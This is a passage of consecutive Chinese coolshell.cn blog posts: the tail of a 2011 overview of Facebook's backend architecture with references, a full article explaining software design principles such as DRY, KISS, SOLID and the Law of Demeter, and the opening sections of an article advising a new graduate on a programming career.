- 持久化由MySQL, [Memcached ](http://memcached.org/)[3], Facebook 的 [Cassandra ](http://cassandra.apache.org/)[4], Hadoop 的 [HBase ](http://hbase.apache.org/)[5] 完成。Memcached 使用了MySQL的内存Cache。Facebook 工程师承认他们的Cassandra 使用正在减少，因为他们更喜欢HBase，因为它的更简单的一致性模型，以到其MapReduce能力。

- 离线处理使用Hadoop 和 Hive。

- 日志，点击，feeds数据使用[Scribe ](https://github.com/facebook/scribe)[6]，把其聚合并存在 HDFS，其使用[Scribe-HDFS ](https://hadoopblog.blogspot.com/2009/06/hdfs-scribe-integration.html)[7]，因而允许使用MapReduce进行扩展分析。


- [BigPipe ](https://www.facebook.com/notes/facebook-engineering/bigpipe-pipelining-web-pages-for-high-performance/389414033919)[8] 是他们的定制技术，用来加速页面显示。

- [Varnish Cache](http://www.varnish-cache.org/) [9]用作HTTP代理。他们用这个的原因是[高速和有效率](http://www.varnish-software.com/customers/facebook)。 [10].

- 用来搞定用户[上传的十亿张照片的存储](https://www.facebook.com/note.php?note_id=76191543919)，其由Haystack处理，Facebook自己开发了一个Ad-Hoc存储方案，其主要做了一些低层优化和“仅追加”写技术 [11].

- Facebook Messages 使用了自己的架构，其明显地构建在了一个动态集群的基础架构上。业务逻辑和持久化被封装在一个所谓的’Cell’。每个‘Cell’都处理一部分用户，新的‘Cell’可以因为访问热度被添加[12]。 持久化归档使用HBase [13]。

- Facebook Messages 的搜索引擎由存储在HBase中的一个倒置索引的构建。 [14]

- Facebook 搜索引擎实现细节据我所知目前是未知状态。

- Typeahead 搜索使用了一个定制的存储和检索逻辑。 [15]

- Chat 基于一个Epoll 服务器，这个服务器由Erlang 开发，由Thrift存取 [16]

关于那些供给给上述组件的资源，下面是一些信息和数量，但是有一些是未知的：

- Facebook估计有超过60,000 台服务器[16]。他们最新的数据中心在俄勒冈州的Prineville，其基于完全自定设计的硬件[17] 那是最近才公开的 [Open Compute 项目](http://opencompute.org/)[18]。

- 300 TB 的数据存在 Memcached 中处理 [19]

- 他们的Hadoop 和 Hive 集群由3000 服务器组成，每台服务器有8个核，32GB的内存，12TB的硬盘，全部有2万4千个CPU的核，96TB内存和36PB的硬盘。 [20]

- 每天有1000亿的点击量，500亿张照片， 3 万亿个对象被 Cache，每天130TB的日志（[2010年7月的数据](https://www.facebook.com/note.php?note_id=409881258919)） [21]

**参考引用**

[1] *HipHop for PHP*: [http://developers.facebook.com/blog/post/358](https://developers.facebook.com/blog/post/358)
[2] *Thrift*: http://thrift.apache.org/
[3] *Memcached*: http://memcached.org/
[4] *Cassandra*: http://cassandra.apache.org/
[5] *HBase*: http://hbase.apache.org/
[6] *Scribe*: https://github.com/facebook/scribe
[7] *Scribe-HDFS*: [http://hadoopblog.blogspot.com/2009/06/hdfs-scribe-integration.html](https://hadoopblog.blogspot.com/2009/06/hdfs-scribe-integration.html)
[8] *BigPipe*: [http://www.facebook.com/notes/facebook-engineering/bigpipe-pipelining-web-pages-for-high-performance/389414033919](https://www.facebook.com/notes/facebook-engineering/bigpipe-pipelining-web-pages-for-high-performance/389414033919)
[9] *Varnish Cache*: http://www.varnish-cache.org/
[10] *Facebook goes for Varnish*: http://www.varnish-software.com/customers/facebook
[11] *Needle in a haystack*: efficient storage of billions of photos: [http://www.facebook.com/note.php?note_id=76191543919](https://www.facebook.com/note.php?note_id=76191543919)
[12] *Scaling the Messages Application Back End*: [http://www.facebook.com/note.php?note_id=10150148835363920](https://www.facebook.com/note.php?note_id=10150148835363920)
[13] *The Underlying Technology of Messages*: https://www.facebook.com/note.php?note_id=454991608919
[14] *The Underlying Technology of Messages Tech Talk*: [http://www.facebook.com/video/video.php?v=690851516105](https://www.facebook.com/video/video.php?v=690851516105)
[15] *Facebook’s typeahead search architecture*: [http://www.facebook.com/video/video.php?v=432864835468](https://www.facebook.com/video/video.php?v=432864835468)
[16] *Facebook Chat*: [http://www.facebook.com/note.php?note_id=14218138919](https://www.facebook.com/note.php?note_id=14218138919)
[17] *Who has the most Web Servers?*: http://www.datacenterknowledge.com/archives/2009/05/14/whos-got-the-most-web-servers/
[18] B*uilding Efficient Data Centers with the Open Compute Project*: [http://www.facebook.com/note.php?note_id=10150144039563920](https://www.facebook.com/note.php?note_id=10150144039563920)
[19] *Open Compute Project*: http://opencompute.org/
[20] *Facebook’s architecture presentation at Devoxx 2010*: [http://www.devoxx.com](http://www.devoxx.com/)
[21] *Scaling Facebook to 500 millions users and beyond*: [http://www.facebook.com/note.php?note_id=409881258919](https://www.facebook.com/note.php?note_id=409881258919)

（全文完）

# 一些软件设计的原则

#####  [2011年04月25日 ](https://coolshell.cn/articles/4535.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [69 条评论](https://coolshell.cn/articles/4535.html#comments) 82,922 人阅读

以前本站向大家介绍过一些软件开发的原则，比如[优质代码的十诫](https://coolshell.cn/articles/1007.html)和[Unix传奇(下篇)](https://coolshell.cn/articles/2324.html)中所以说的UNIX的设计原则。相信大家从中能够从中学了解到一些设计原理方面的知识，正如我在《[再谈“我是怎么招聘程序”](https://coolshell.cn/articles/4506.html)》中所说的，一个好的程序员通常由其操作技能、知识水平，经验层力和能力四个方面组成。在这里想和大家说说设计中的一些原则，我认为这些东西属于长期经验总结出来的知识。这些原则，每一个程序员都应该了解。但是请不要教条主义，在使用的时候还是要多多考虑实际情况。其实，**下面这些原则，不单单只是软件开发，可以推广到其它生产活动中，甚至我们的生活中**。

目录


[Don’t Repeat Yourself (DRY)](https://coolshell.cn/articles/4535.html#Don’t_Repeat_Yourself_DRY)[Keep It Simple, Stupid (KISS)](https://coolshell.cn/articles/4535.html#Keep_It_Simple_Stupid_KISS)[Program to an interface, not an implementation](https://coolshell.cn/articles/4535.html#Program_to_an_interface_not_an_implementation)[Command-Query Separation (CQS) – 命令-查询分离原则](https://coolshell.cn/articles/4535.html#Command-Query_Separation_CQS_–_命令-查询分离原则)[You Ain’t Gonna Need It (YAGNI)](https://coolshell.cn/articles/4535.html#You_Ain’t_Gonna_Need_It_YAGNI)[Law of Demeter – 迪米特法则](https://coolshell.cn/articles/4535.html#Law_of_Demeter_–_迪米特法则)[面向对象的S.O.L.I.D 原则](https://coolshell.cn/articles/4535.html#面向对象的SOLID_原则)[Common Closure Principle（CCP）– 共同封闭原则](https://coolshell.cn/articles/4535.html#Common_Closure_Principle（CCP）–_共同封闭原则)[Common Reuse Principle (CRP) – 共同重用原则](https://coolshell.cn/articles/4535.html#Common_Reuse_Principle_CRP_–_共同重用原则)[Hollywood Principle – 好莱坞原则](https://coolshell.cn/articles/4535.html#Hollywood_Principle_–_好莱坞原则)[High Cohesion & Low/Loose coupling & – 高内聚， 低耦合](https://coolshell.cn/articles/4535.html#High_Cohesion_LowLoose_coupling_–_高内聚，_低耦合)[Convention over Configuration（CoC）– 惯例优于配置原则](https://coolshell.cn/articles/4535.html#Convention_over_Configuration（CoC）–_惯例优于配置原则)[Separation of Concerns (SoC) – 关注点分离](https://coolshell.cn/articles/4535.html#Separation_of_Concerns_SoC_–_关注点分离)[Design by Contract (DbC) – 契约式设计](https://coolshell.cn/articles/4535.html#Design_by_Contract_DbC_–_契约式设计)[Acyclic Dependencies Principle (ADP) – 无环依赖原则](https://coolshell.cn/articles/4535.html#Acyclic_Dependencies_Principle_ADP_–_无环依赖原则)[后记](https://coolshell.cn/articles/4535.html#后记)

#### Don’t Repeat Yourself (DRY)

DRY 是一个最简单的法则，也是最容易被理解的。但它也可能是最难被应用的（因为要做到这样，我们需要在泛型设计上做相当的努力，这并不是一件容易的事）。它意味着，当我们在两个或多个地方的时候发现一些相似的代码的时候，我们需要把他们的共性抽象出来形一个唯一的新方法，并且改变现有的地方的代码让他们以一些合适的参数调用这个新的方法。

**参考**：[http://en.wikipedia.org/wiki/Don%27t_repeat_yourself](https://en.wikipedia.org/wiki/Don't_repeat_yourself)

#### Keep It Simple, Stupid (KISS)

KISS原则在设计上可能最被推崇的，在家装设计，界面设计 ，操作设计上，复杂的东西越来越被众人所BS了，而简单的东西越来越被人所认可，比如[这些UI的设计](https://coolshell.cn/articles/1907.html)和我们[中国网页](https://coolshell.cn/articles/3605.html)（尤其是[新浪的网页](https://coolshell.cn/articles/3872.html)）者是负面的例子。“宜家”（IKEA）简约、效率的家居设计、生产思路；“微软”（Microsoft）“所见即所得”的理念；“谷歌”（Google)简约、直接的商业风格，无一例外的遵循了“kiss”原则，也正是“kiss”原则，成就了这些看似神奇的商业经典。而苹果公司的iPhone/iPad将这个原则实践到了极至。


把一个事情搞复杂是一件简单的事，但要把一个复杂的事变简单，这是一件复杂的事。

**参考**：[http://en.wikipedia.org/wiki/KISS_principle](https://en.wikipedia.org/wiki/KISS_principle)

#### Program to an interface, not an implementation

这是设计模式中最根本的哲学，注重接口，而不是实现，依赖接口，而不是实现。接口是抽象是稳定的，实现则是多种多样的。以后面我们会面向对象的SOLID原则中会提到我们的依赖倒置原则，就是这个原则的的另一种样子。还有一条原则叫 **Composition over inheritance**（喜欢组合而不是继承），这两条是那23个经典设计模式中的设计原则。

#### Command-Query Separation (CQS) – 命令-查询分离原则

- 查询：当一个方法返回一个值来回应一个问题的时候，它就具有查询的性质；
- 命令：当一个方法要改变对象的状态的时候，它就具有命令的性质；

通常，一个方法可能是纯的Command模式或者是纯的Query模式，或者是两者的混合体。在设计接口时，如果可能，应该尽量使接口单一化，保证方法的行为严格的是命令或者是查询，这样查询方法不会改变对象的状态，没有副作用，而会改变对象的状态的方法不可能有返回值。也就是说：如果我们要问一个问题，那么就不应该影响到它的答案。实际应用，要视具体情况而定，语义的清晰性和使用的简单性之间需要权衡。将Command和Query功能合并入一个方法，方便了客户的使用，但是，降低了清晰性，而且，可能不便于基于断言的程序设计并且需要一个变量来保存查询结果。

在系统设计中，很多系统也是以这样原则设计的，查询的功能和命令功能的系统分离，这样有则于系统性能，也有利于系统的安全性。

**参考**：[http://en.wikipedia.org/wiki/Command-query_separation](https://en.wikipedia.org/wiki/Command-query_separation)

#### You Ain’t Gonna Need It (YAGNI)

这个原则简而言之为——只考虑和设计必须的功能，避免过度设计。只实现目前需要的功能，在以后您需要更多功能时，可以再进行添加。

- 如无必要，勿增复杂性。
- 软件开发先是一场沟通博弈。

以前本站有一篇关于[过度重构的文章](https://coolshell.cn/articles/3005.html)，这个示例就是这个原则的反例。而，WebSphere的设计者就[表示过他过度设计了这个产品](http://www.bbc.co.uk/news/business-11944966)。我们的程序员或是架构师在设计系统的时候，会考虑很多扩展性的东西，导致在架构与设计方面使用了大量折衷，最后导致项目失败。这是个令人感到讽刺的教训，因为本来希望尽可能延长项目的生命周期，结果反而缩短了生命周期。

**参考**：[http://en.wikipedia.org/wiki/You_Ain%27t_Gonna_Need_It](https://en.wikipedia.org/wiki/You_Ain't_Gonna_Need_It)

#### Law of Demeter – 迪米特法则

迪米特法则(Law of Demeter)，又称“最少知识原则”（Principle of Least Knowledge），其来源于1987年荷兰大学的一个叫做Demeter的项目。Craig Larman把Law of Demeter又称作“不要和陌生人说话”。在《程序员修炼之道》中讲LoD的那一章叫作“解耦合与迪米特法则”。关于迪米特法则有一些很形象的比喻：

- 如果你想让你的狗跑的话，你会对狗狗说还是对四条狗腿说？
- 如果你去店里买东西，你会把钱交给店员，还是会把钱包交给店员让他自己拿？

和狗的四肢说话？让店员自己从钱包里拿钱？这听起来有点荒唐，不过在我们的代码里这几乎是见怪不怪的事情了。

对于LoD，正式的表述如下：

> 对于对象 ‘O’ 中一个方法’M’，M应该只能够访问以下对象中的方法：
>
> 1. 对象O；
> 2. 与O直接相关的Component Object；
> 3. 由方法M创建或者实例化的对象；
> 4. 作为方法M的参数的对象。

在《Clean Code》一书中，有一段Apache framework中的一段违反了LoD的代码：

final String outputDir = ctxt.getOptions().getScratchDir().getAbsolutePath();

这么长的一串对其它对象的细节，以及细节的细节，细节的细节的细节……的调用，增加了耦合，使得代码结构复杂、僵化，难以扩展和维护。

在《重构》一书中的代码的环味道中有一种叫做“Feature Envy”(依恋情结），形象的描述了一种违反了LoC的情况。Feature Envy就是说一个对象对其它对象的内容更有兴趣，也就是说老是羡慕别的对象的成员、结构或者功能，大老远的调用人家的东西。这样的结构显然是不合理的。我们的程序应该写得比较“害羞”。不能像前面例子中的那个不把自己当外人的店员一样，拿过客人的钱包自己把钱拿出来。“害羞”的程序只和自己最近的朋友交谈。这种情况下应该调整程序的结构，让那个对象自己拥有它羡慕的feature，或者使用合理的设计模式（例如Facade和Mediator）。

**参考**：[http://en.wikipedia.org/wiki/Principle_of_Least_Knowledge](https://en.wikipedia.org/wiki/Principle_of_Least_Knowledge)

#### 面向对象的S.O.L.I.D 原则

一般来说这是面向对象的五大设计原则，但是，我觉得这些原则可适用于所有的软件开发。

**Single Responsibility Principle (SRP) – 职责单一原则**

关于单一职责原则，其核心的思想是：**一个类，只做一件事，并把这件事做好，其只有一个引起它变化的原因**。单一职责原则可以看作是低耦合、高内聚在面向对象原则上的引申，将职责定义为引起变化的原因，以提高内聚性来减少引起变化的原因。职责过多，可能引起它变化的原因就越多，这将导致职责依赖，相互之间就产生影响，从而极大的损伤其内聚性和耦合度。单一职责，通常意味着单一的功能，因此不要为一个模块实现过多的功能点，以保证实体只有一个引起它变化的原因。

- Unix/Linux是这一原则的完美体现者。各个程序都独立负责一个单一的事。
- Windows是这一原则的反面示例。几乎所有的程序都交织耦合在一起。

**Open/Closed Principle (OCP) – 开闭原则**

关于开发封闭原则，其核心的思想是：模块是可扩展的，而不可修改的。也就是说，**对扩展是开放的，而对修改是封闭的**。

- 对扩展开放，意味着有新的需求或变化时，可以对现有代码进行扩展，以适应新的情况。
- 对修改封闭，意味着类一旦设计完成，就可以独立完成其工作，而不要对类进行任何修改。

对于面向对象来说，需要你依赖抽象，而不是实现，23个经典设计模式中的“策略模式”就是这个实现。对于非面向对象编程，一些API需要你传入一个你可以扩展的函数，比如我们的C 语言的qsort()允许你提供一个“比较器”，STL中的容器类的内存分配，ACE中的多线程的各种锁。对于软件方面，浏览器的各种插件属于这个原则的实践。

**Liskov substitution principle (LSP) – 里氏代换原则**

软件工程大师Robert C. Martin把里氏代换原则最终简化为一句话：“Subtypes must be substitutable for their base types”。也就是，子类必须能够替换成它们的基类。即：子类应该可以替换任何基类能够出现的地方，并且经过替换以后，代码还能正常工作。另外，不应该在代码中出现if/else之类对子类类型进行判断的条件。里氏替换原则LSP是使代码符合开闭原则的一个重要保证。正是由于子类型的可替换性才使得父类型的模块在无需修改的情况下就可以扩展。

这么说来，似乎有点教条化，我非常建议大家看看这个原则个两个最经典的案例——“正方形不是长方形”和“鸵鸟不是鸟”。通过这两个案例，你会明白《墨子 小取》中说的 ——“娣，美人也，爱娣，非爱美人也….盗，人也；恶盗，非恶人也。”——妹妹虽然是美人，但喜欢妹妹并不代表喜欢美人。盗贼是人，但讨厌盗贼也并不代表就讨厌人类。**这个原则让你考虑的不是语义上对象的间的关系，而是实际需求的环境**。

在很多情况下，在设计初期我们类之间的关系不是很明确，LSP则给了我们一个判断和设计类之间关系的基准：需不需要继承，以及怎样设计继承关系。

**Interface Segregation Principle (ISP) – 接口隔离原则**

接口隔离原则意思是把功能实现在接口中，而不是类中，使用多个专门的接口比使用单一的总接口要好。

举个例子，我们对电脑有不同的使用方式，比如：写作，通讯，看电影，打游戏，上网，编程，计算，数据等，如果我们把这些功能都声明在电脑的抽类里面，那么，我们的上网本，PC机，服务器，笔记本的实现类都要实现所有的这些接口，这就显得太复杂了。所以，我们可以把其这些功能接口隔离开来，比如：工作学习接口，编程开发接口，上网娱乐接口，计算和数据服务接口，这样，我们的不同功能的电脑就可以有所选择地继承这些接口。

这个原则可以提升我们“搭积木式”的软件开发。对于设计来说，Java中的各种Event Listener和Adapter，对于软件开发来说，不同的用户权限有不同的功能，不同的版本有不同的功能，都是这个原则的应用。

**Dependency Inversion Principle (DIP) – 依赖倒置原则**

高层模块不应该依赖于低层模块的实现，而是依赖于高层抽象。

举个例子，墙面的开关不应该依赖于电灯的开关实现，而是应该依赖于一个抽象的开关的标准接口，这样，当我们扩展程序的时候，我们的开关同样可以控制其它不同的灯，甚至不同的电器。也就是说，电灯和其它电器继承并实现我们的标准开关接口，而我们的开关产商就可不需要关于其要控制什么样的设备，只需要关心那个标准的开关标准。这就是依赖倒置原则。

这就好像浏览器并不依赖于后面的web服务器，其只依赖于HTTP协议。这个原则实在是太重要了，社会的分工化，标准化都是这个设计原则的体现。

**参考**：[http://en.wikipedia.org/wiki/Solid_(object-oriented_design)](https://en.wikipedia.org/wiki/Solid_(object-oriented_design))

#### Common Closure Principle（CCP）– 共同封闭原则

一个包中所有的类应该对同一种类型的变化关闭。一个变化影响一个包，便影响了包中所有的类。一个更简短的说法是：一起修改的类，应该组合在一起（同一个包里）。如果必须修改应用程序里的代码，我们希望所有的修改都发生在一个包里（修改关闭），而不是遍布在很多包里。CCP原则就是把因为某个同样的原因而需要修改的所有类组合进一个包里。如果2个类从物理上或者从概念上联系得非常紧密，它们通常一起发生改变，那么它们应该属于同一个包。

CCP延伸了开闭原则（OCP）的“关闭”概念，当因为某个原因需要修改时，把需要修改的范围限制在一个最小范围内的包里。

**参考**：http://c2.com/cgi/wiki?CommonClosurePrinciple

#### Common Reuse Principle (CRP) – 共同重用原则

包的所有类被一起重用。如果你重用了其中的一个类，就重用全部。换个说法是，没有被一起重用的类不应该被组合在一起。CRP原则帮助我们决定哪些类应该被放到同一个包里。依赖一个包就是依赖这个包所包含的一切。当一个包发生了改变，并发布新的版本，使用这个包的所有用户都必须在新的包环境下验证他们的工作，即使被他们使用的部分没有发生任何改变。因为如果包中包含有未被使用的类，即使用户不关心该类是否改变，但用户还是不得不升级该包并对原来的功能加以重新测试。

CCP则让系统的维护者受益。CCP让包尽可能大（CCP原则加入功能相关的类），CRP则让包尽可能小（CRP原则剔除不使用的类）。它们的出发点不一样，但不相互冲突。

**参考**：http://c2.com/cgi/wiki?CommonReusePrinciple

#### Hollywood Principle – 好莱坞原则

好莱坞原则就是一句话——“don’t call us, we’ll call you.”。意思是，好莱坞的经纪人们不希望你去联系他们，而是他们会在需要的时候来联系你。也就是说，所有的组件都是被动的，所有的组件初始化和调用都由容器负责。组件处在一个容器当中，由容器负责管理。

简单的来讲，就是由容器控制程序之间的关系，而非传统实现中，由程序代码直接操控。这也就是所谓“控制反转”的概念所在：

1. 不创建对象，而是描述创建对象的方式。
2. 在代码中，对象与服务没有直接联系，而是容器负责将这些联系在一起。

控制权由应用代码中转到了外部容器，控制权的转移，是所谓反转。

好莱坞原则就是IoC（Inversion of Control）或DI（Dependency Injection ）的基础原则。这个原则很像依赖倒置原则，依赖接口，而不是实例，但是这个原则要解决的是怎么把这个实例传入调用类中？你可能把其声明成成员，你可以通过构造函数，你可以通过函数参数。但是 IoC可以让你通过配置文件，一个由Service Container 读取的配置文件来产生实际配置的类。但是程序也有可能变得不易读了，程序的性能也有可能还会下降。

**参考**：

- [http://en.wikipedia.org/wiki/Hollywood_Principle](https://en.wikipedia.org/wiki/Hollywood_Principle)
- [http://en.wikipedia.org/wiki/Inversion_of_Control](https://en.wikipedia.org/wiki/Inversion_of_Control)

#### High Cohesion & Low/Loose coupling & – 高内聚， 低耦合

这个原则是UNIX操作系统设计的经典原则，把模块间的耦合降到最低，而努力让一个模块做到精益求精。

- 内聚：一个模块内各个元素彼此结合的紧密程度
- 耦合：一个软件结构内不同模块之间互连程度的度量

内聚意味着重用和独立，耦合意味着多米诺效应牵一发动全身。

**参考**：

- [http://en.wikipedia.org/wiki/Coupling_(computer_science)](https://en.wikipedia.org/wiki/Coupling_(computer_science))
- [http://en.wikipedia.org/wiki/Cohesion_(computer_science)](https://en.wikipedia.org/wiki/Cohesion_(computer_science))

#### Convention over Configuration（CoC）– 惯例优于配置原则

简单点说，就是将一些公认的配置方式和信息作为内部缺省的规则来使用。例如，Hibernate的映射文件，如果约定字段名和类属性一致的话，基本上就可以不要这个配置文件了。你的应用只需要指定不convention的信息即可，从而减少了大量convention而又不得不花时间和精力啰里啰嗦的东东。配置文件很多时候相当的影响开发效率。

Rails 中很少有配置文件（但不是没有，数据库连接就是一个配置文件），Rails 的fans号称期开发效率是 java 开发的 10 倍，估计就是这个原因。Maven也使用了CoC原则，当你执行mvn -compile命令的时候，不需要指源文件放在什么地方，而编译以后的class文件放置在什么地方也没有指定，这就是CoC原则。

**参考**：[http://en.wikipedia.org/wiki/Convention_over_Configuration](https://en.wikipedia.org/wiki/Convention_over_Configuration)

#### Separation of Concerns (SoC) – 关注点分离

SoC 是计算机科学中最重要的努力目标之一。这个原则，就是在软件开发中，通过各种手段，将问题的各个关注点分开。如果一个问题能分解为独立且较小的问题，就是相对较易解决的。问题太过于复杂，要解决问题需要关注的点太多，而程序员的能力是有限的，不能同时关注于问题的各个方面。正如程序员的记忆力相对于计算机知识来说那么有限一样，程序员解决问题的能力相对于要解决的问题的复杂性也是一样的非常有限。在我们分析问题的时候，如果我们把所有的东西混在一起讨论，那么就只会有一个结果——乱。

我记得在上一家公司有一个项目，讨论就讨论了1年多，项目本来不复杂，但是没有使用SoC，全部的东西混为一谈，再加上一堆程序员注入了各种不同的观点和想法，整个项目一下子就失控了。最后，本来一个1年的项目做了3年。

实现关注点分离的方法主要有两种，一种是标准化，另一种是抽象与包装。标准化就是制定一套标准，让使用者都遵守它，将人们的行为统一起来，这样使用标准的人就不用担心别人会有很多种不同的实现，使自己的程序不能和别人的配合。Java EE就是一个标准的大集合。每个开发者只需要关注于标准本身和他所在做的事情就行了。就像是开发镙丝钉的人只专注于开发镙丝钉就行了，而不用关注镙帽是怎么生产的，反正镙帽和镙丝钉按标来就一定能合得上。不断地把程序的某些部分抽像差包装起来，也是实现关注点分离的好方法。一旦一个函数被抽像出来并实现了，那么使用函数的人就不用关心这个函数是如何实现的，同样的，一旦一个类被抽像并实现了，类的使用者也不用再关注于这个类的内部是如何实现的。诸如组件，分层，面向服务，等等这些概念都是在不同的层次上做抽像和包装，以使得使用者不用关心它的内部实现细节。

说白了还是“高内聚，低耦合”。

**参考**：http://sulong.me/archives/99

#### Design by Contract (DbC) – 契约式设计

DbC的核心思想是对软件系统中的元素之间相互合作以及“责任”与“义务”的比喻。这种比喻从商业活动中“客户”与“供应商”达成“契约”而得来。例如：

- 供应商必须提供某种产品（责任），并且他有权期望客户已经付款（权利）。
- 客户必须付款（责任），并且有权得到产品（权利）。
- 契约双方必须履行那些对所有契约都有效的责任，如法律和规定等。

同样的，如果在程序设计中一个模块提供了某种功能，那么它要：

- 期望所有调用它的客户模块都保证一定的进入条件：这就是模块的先验条件（客户的义务和供应商的权利，这样它就不用去处理不满足先验条件的情况）。
- 保证退出时给出特定的属性：这就是模块的后验条件——（供应商的义务，显然也是客户的权利）。
- 在进入时假定，并在退出时保持一些特定的属性：不变式。

契约就是这些权利和义务的正式形式。我们可以用“三个问题”来总结DbC，并且作为设计者要经常问：

- 它期望的是什么？
- 它要保证的是什么？
- 它要保持的是什么？

根据Bertrand Meyer氏提出的DBC概念的描述，对于类的一个方法，都有一个前提条件以及一个后续条件，前提条件说明方法接受什么样的参数数据等，只有前提条件得到满足时，这个方法才能被调用；同时后续条件用来说明这个方法完成时的状态，如果一个方法的执行会导致这个方法的后续条件不成立，那么这个方法也不应该正常返回。

现在把前提条件以及后续条件应用到继承子类中，子类方法应该满足：

1. 前提条件不强于基类．
2. 后续条件不弱于基类．

换句话说，通过基类的接口调用一个对象时，用户只知道基类前提条件以及后续条件。因此继承类不得要求用户提供比基类方法要求的更强的前提条件，亦即，继承类方法必须接受任何基类方法能接受的任何条件（参数）。同样，继承类必须顺从基类的所有后续条件，亦即，继承类方法的行为和输出不得违反由基类建立起来的任何约束，不能让用户对继承类方法的输出感到困惑。

这样，我们就有了基于契约的LSP，基于契约的LSP是LSP的一种强化。

**参考**：[http://en.wikipedia.org/wiki/Design_by_contract](https://en.wikipedia.org/wiki/Design_by_contract)

#### Acyclic Dependencies Principle (ADP) – 无环依赖原则

包之间的依赖结构必须是一个直接的无环图形，也就是说，在依赖结构中不允许出现环（循环依赖）。如果包的依赖形成了环状结构，怎么样打破这种循环依赖呢？有2种方法可以打破这种循环依赖关系：第一种方法是创建新的包，如果A、B、C形成环路依赖，那么把这些共同类抽出来放在一个新的包D里。这样就把C依赖A变成了C依赖D以及A依赖D，从而打破了循环依赖关系。第二种方法是使用DIP（依赖倒置原则）和ISP（接口分隔原则）设计原则。

无环依赖原则（ADP）为我们解决包之间的关系耦合问题。在设计模块时，不能有循环依赖。

**参考**：http://c2.com/cgi/wiki?AcyclicDependenciesPrinciple

#### 后记

上面这些原则可能有些学院派，也可能太为理论，我在这里说的也比较模糊和简单，这里只是给大家一个概貌，如果想要了解更多的东西，大家可以多google一下。

不过这些原则看上去都不难，但是要用好却并不那么容易。要能把这些原则用得好用得精，而不教条，我的经验如下：（我以为这是一个理论到应用的过程）

1. 你可以先粗浅或是表面地知道这些原则。
2. 但不要急着马上就使用。
3. 在工作学习中观察和总结别人或自己的设计。
4. 再回过头来了回顾一下这些原则，相信你会有一些自己的心得。
5. 有适度地去实践一下。
6. Goto第 3步。

我相信可能还会有其实一些原则，欢迎大家提供。

（全文完）

# 对程序员职业的一些建议

#####  [2011年04月26日 ](https://coolshell.cn/articles/4561.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [121 条评论](https://coolshell.cn/articles/4561.html#comments) 73,174 人阅读

自从四年前被CSDN采访后（“[职业规化就像软件工程](http://blog.csdn.net/haoel/archive/2007/07/13/1688104.aspx)”），经常会有网友（尤其是刚毕业的）写邮件来问我一些程序员职业生涯的一些问题，至到今天。比如，国企还是外企的选择，一直编程有没有前途等等问题。面对这样的邮件，我感到有很大的压力，因为如果我的回复很有可能会误人一生，但我另一方面又很想帮助这些人。所以，我基本上还是会尝试回一下这样的邮件。昨天，我又回了一封。但是我心里还是有点忐忑不安。害怕说错了什么。

今天，我想把我的一些思路和建议写在这里，一方面供大家参考，另一方面也想听听大家对我的评判，这样不但对更多的人有帮助，同时对我自己也是一个帮助。

下面是某网友前天给我发来的邮件：

> 我是一个刚刚毕业的大学生，我觉得自己对于程序员这个行业感到很迷惘，所以发邮件打扰您一下，麻烦了。
>
> 我今年正在找工作，我现在有几家国企的offer，百度的offer还在等待，我觉得第一份工作对我来说很重要，因为第一份基本决定了近几年或者一辈子你在哪个行业发展。家里人都是希望我签国企，但是我自己对技术很感兴趣，一直希望能在技术上面走下去，签国企虽然很轻松但是我总觉得在技术上学不到什么有用的东西，所以我个人倾向是去百度。
>
> 我现在很迷惘的是，如果我一直在程序员这个行业上走下去，以后的出路应该是什么呢？还是一直到高级工程师，还是项目管理这种程度吗？
>
> 我现在听很多人在说程序员必需要转行，因为一辈子在编写代码，没有什么好的出路，对于这点，您有什么看法吗？我现在才刚刚从学校毕业，对IT这个行业也不是非常了解，但是我觉得自己自学能力很强，而且确实很想学些东西，你对于一个刚刚毕业的计算机学生有什么建议吗？

信件的内容我没有改变，我相信很多人都有相似的问题。我昨天给这们朋友回复了邮件，下面是我回复内容的一个整理。欢迎大家讨论。

首先，我想说的是，**这些东西只是我根据我的经历给出的建议，仅仅供大家去参考**，**你的路你的人生要你自己决定，不要轻易的让人帮你决定，那怕是你的家人**。

如果我们把所的问题一起谈，那怎么说也说不清楚，所以，请允许我“[关键点分离原则](https://coolshell.cn/articles/4535.html)”来分开说说。


目录


[一、对技术的热情](https://coolshell.cn/articles/4561.html#一、对技术的热情)[二、对技术的能力](https://coolshell.cn/articles/4561.html#二、对技术的能力)[三、再说说工作的事](https://coolshell.cn/articles/4561.html#三、再说说工作的事)[四，技术可以做多长](https://coolshell.cn/articles/4561.html#四，技术可以做多长)[五，待遇和职位](https://coolshell.cn/articles/4561.html#五，待遇和职位)

#### 一、对技术的热情

如果我们喜爱编程，喜爱技术的话，那么，我们就会投入热情，自己会去专研很多东西。就像你以前对某个东西痴迷一样，你可以在工作之余还在学习和专研这些东西，你会经常和人讨论这些东西。不知道你是否会和我一样有一种感觉，如果你不学习技术，你不去专研，你就怕被淘汰，你就会感到不舒服。

所以，我们一定要问我们自己一下，我们自己喜欢技术吗？喜欢技术到什么程度。只是感兴趣还是喜欢？这两个不一样。**兴趣能让你开始让你执着，但只有喜爱才会投入热情，只有投入热情才可能会出成绩**。这个问题你要问问自己。

1. 你有多大的热情在这个事业上？
2. 你对你自己的自我价值的实现的诉求有多大？

如果你很有热情，可能到了有些痴迷的程度的话，比如，你会因为专研某个问题，学习某个东西，尝试某个东西，达到废寝忘食的程度，而且以些为乐，那么我非常建议你走技术的路线。

#### 二、对技术的能力

有兴趣，有热情，并不代表你就一定行。你需要很清楚地认识到，你还需要有能力（我在《[再谈“我是怎么招聘程序员”](https://coolshell.cn/articles/4506.html)》一文中说了程序员的四个事，操作技能，知识，经验，和能力，大家可以去看看我对“能力”的定义）。你需要反思和重审一下自己是否有能力，你的学习能力怎么样，是经常需要问人，还是可以自己专研？你的思路怎么样，是否能被有经验的人认可，还是能够影响别人？

**兴趣和热情只能让你很执着，但并不一定能让你走好这条路，只有你的能力和你的强项才能让你走好这条路**。希望大家能够清楚地认识到这其中的差别。

